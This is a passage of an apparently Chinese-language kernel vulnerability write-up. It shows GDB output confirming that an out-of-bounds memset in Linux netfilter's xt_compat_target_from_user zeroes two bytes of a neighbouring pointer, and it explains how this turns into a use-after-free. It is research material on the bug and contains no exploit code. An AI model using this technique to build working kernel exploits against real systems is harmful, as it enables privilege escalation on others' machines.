 用GDB确认，OOB触发后后面页会有两个字节被设置成0 - `memset`前`0xffff888108c9b000`的值是`0xffff888108f82000`, `memset`后变成了`0xffff888108f80000`。如果 `0xffff888108f82000`和`0xffff888108f80000`都是可控制的内存(比如`msg_msg`的内存), 到这里就达成了两个指针指向同一个内存，释放掉其中一个可以得到UAF。   

```

(gdb) list
1126            memcpy(t->data, ct->data, tsize - sizeof(*ct));
1127            pad = XT_ALIGN(target->targetsize) - target->targetsize;
1128            if (pad > 0)
1129                    memset(t->data + target->targetsize, 0, pad);
1130
1131            tsize += off;
1132            t->u.user.target_size = tsize;
1133            strlcpy(name, target->name, sizeof(name));
1134            module_put(target->me);
1135            strncpy(t->u.user.name, name, sizeof(t->u.user.name));
(gdb) p t
$104 = (struct xt_entry_target *) 0xffff888108c9afda
(gdb) p t->data
$105 = 0xffff888108c9affa ""
(gdb) x/a t->data
0xffff888108c9affa:     0x0 <fixed_percpu_data>
(gdb) p *t
$106 = {u = {user = {target_size = 32, name = "NFQUEU\240\2264\203\377\377\377\377", '\000' <repeats 14 times>, revision = 1 '\001'}, kernel = {target_size = 32,
      target = 0xffffffff833496a0 <nfqueue_tg_reg+128>}, target_size = 32}, data = 0xffff888108c9affa ""}
(gdb) p/x t
$107 = 0xffff888108c9afda
(gdb) p target->targetsize
$108 = 4
(gdb) p/x 0xffff888108c9affa + 4
$109 = 0xffff888108c9affe

(gdb) x/20a 0xffff888108c9affe + 2
0xffff888108c9b000:     0xffff888108f82000      0xffff8881023f64c0
0xffff888108c9b010:     0x41    0xfd0
```
执行到`x_tables.c +1131`, `0xffff888108c9b000` 由 `0xffff888108f82000`变成了`0xffff888108f80000`:   
```
(gdb)x/20a 0xffff888108c9affe + 2
0xffff888108c9b000:     0xffff888108f80000      0xffff8881023f64c0
0xffff888108c9b010:     0x41    0xfd0
(gdb) bt
#0  xt_compat_target_from_user (t=0xffff888108c9afda, dstptr=dstptr@entry=0xffffc90000ae3ac8, size=size@entry=0xffffc90000ae3ac4) at net/netfilter/x_tables.c:1131
#1  0xffffffff81f77bbb in compat_copy_entry_from_user (base=<optimized out>, newinfo=<error reading variable: Cannot access memory at address 0x0>, size=0xffffc90000ae3ac4,
    dstptr=0xffffc90000ae3ac8, e=0xffff888108c99040) at net/ipv4/netfilter/ip_tables.c:1376
#2  translate_compat_table (net=net@entry=0xffff8881053f33c0, pinfo=pinfo@entry=0xffffc90000ae3b80, pentry0=pentry0@entry=0xffffc90000ae3b88, compatr=compatr@entry=0xffffc90000ae3b94)
    at net/ipv4/netfilter/ip_tables.c:1440
#3  0xffffffff81f78974 in compat_do_replace (net=net@entry=0xffff8881053f33c0, arg=..., len=4114) at net/ipv4/netfilter/ip_tables.c:1517
#4  0xffffffff81f78d4d in do_ipt_set_ctl (sk=<optimized out>, cmd=64, arg=..., len=4114) at net/ipv4/netfilter/ip_tables.c:1624
#5  0xffffffff81e1c64a in nf_setsockopt (sk=sk@entry=0xffff888105c31a40, pf=pf@entry=2 '\002', val=val@entry=64, opt=..., len=len@entry=4114) at net/netfilter/nf_sockopt.c:101
#6  0xffffffff81efd387 in ip_setsockopt (sk=0xffff888105c31a40, level=<optimized out>, optname=64, optval=..., optlen=4114) at net/ipv4/ip_sockglue.c:1435
#7  0xffffffff81f0a564 in tcp_setsockopt (sk=0xffff888105c31a40, level=<optimized out>, optname=64, optval=..., optlen=<optimized out>) at net/ipv4/tcp.c:3598
#8  0xffffffff81d17a6a in sock_common_setsockopt (sock=<optimized out>, level=<optimized out>, optname=<optimized out>, optval=..., optlen=<optimized out>) at net/core/sock.c:3249
```